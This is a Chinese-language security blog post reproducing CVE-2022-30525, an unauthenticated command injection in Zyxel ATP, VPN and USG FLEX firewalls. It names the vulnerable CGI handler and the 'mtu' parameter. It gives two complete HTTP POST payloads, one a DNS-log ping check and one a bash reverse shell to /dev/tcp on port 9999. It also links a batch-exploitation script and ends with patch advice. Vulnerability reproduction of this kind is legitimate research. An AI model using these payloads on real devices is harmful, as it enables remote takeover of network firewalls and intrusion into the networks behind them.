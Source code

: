 ```yaml
---
title: Zyxel 防火墙未经身份验证的远程命令注入(CVE-2022-30525)
comments: true
date: 2022-05-13 20:54:07
tags: ["Zyxel", "CVE-2022-30525", "漏洞复现"]
categories:
- 渗透测试
cover: https://tva1.sinaimg.cn/large/e6c9d24ely1h274s89z7uj20ze0mw758.jpg
top_img:
description:
---
```




## 漏洞说明

ZyXEL USG FLEX 等都是中国台湾合勤（ZyXEL）公司的防火墙产品。2022年5月12日， Zyxel发布安全公告，修复了一个存在于部分防火墙版本的CGI程序中的命令注入漏洞。漏洞编号：CVE-2022-30525，漏洞威胁等级：严重，漏洞评分：9.8。

该漏洞存在于某些Zyxel防火墙版本的 CGI 程序中，允许在未经身份验证的情况下在受影响设备上以nobody用户身份执行任意命令。



## 影响范围

ATP系列固件：5.10-5.21 Patch 1

VPN系列固件：4.60-5.21 Patch 1

USG FLEX 100(W)、200、500、700：5.00-5.21 Patch 1

USG FLEX 50(W)/USG20(W)-VPN：5.10-5.21 Patch 1





## 漏洞复现

出现漏洞的文件为 `lib_wan_settings.py` 下的 `setWanPortSt` 方法，从源码里可以看到拼接的参数为 `mtu` , 随后直接 `os.system` 命令执行

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h275pdfbkaj20u00w2jvg.jpg)





**手工验证：**

POC：

其中`mtu`参数后面为要执行的命令

```http
POST /ztp/cgi-bin/handler HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json
Connection: close
Content-Length: 165

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":"; ping {DNSlog};","data":"hi"}
```

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h274aj5tbsj225c0pmwj1.jpg)



反弹Shell:

```http
POST /ztp/cgi-bin/handler HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json
Connection: close
Content-Length: 165

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":";bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1';","data":"hi"}
```





**批量验证：**

脚本地址：https://github.com/shuai06/CVE-2022-30525

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h274kbmig8j21yc0dyjti.jpg)

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h274q3zr04j21v40i20vf.jpg)



## 修复建议

厂商已发布补丁修复漏洞，用户请尽快更新至安全版本：ZLD V5.30。

下载链接如下：https://www.zyxel.com/support/download_landing.shtml







## 参考链接

https://mp.weixin.qq.com/s/du56JX1ft03Z-YtM2C2E8A







